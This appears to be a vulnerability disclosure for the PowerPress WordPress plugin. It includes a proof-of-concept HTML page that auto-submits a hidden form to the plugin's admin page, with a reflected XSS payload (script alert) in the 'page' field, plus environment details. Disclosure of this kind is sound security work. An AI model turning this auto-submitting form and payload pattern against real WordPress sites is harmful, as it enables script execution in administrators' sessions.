 # Steps to Reproduce
After installing the plugin you can visit this html to trigger the XSS:
```html
<form action="http://localhost/wp-admin/admin.php?page=powerpress%2Fpowerpressadmin_customfeeds.php" target="_blank" method="post">
    <input type="hidden" name="page" value='"><script>alert(1)</script>'>
</form>

<script>
    document.querySelector("form").submit()
</script>
```
# Additional Information
## Environment
Wordpress: 6.4.2
PHP: php:7.4-fpm
This POC use nginx configuration from https://github.com/dimasma0305/dockerized-wordpress-debug-setup

> Note: You can see my video below for demonstration.
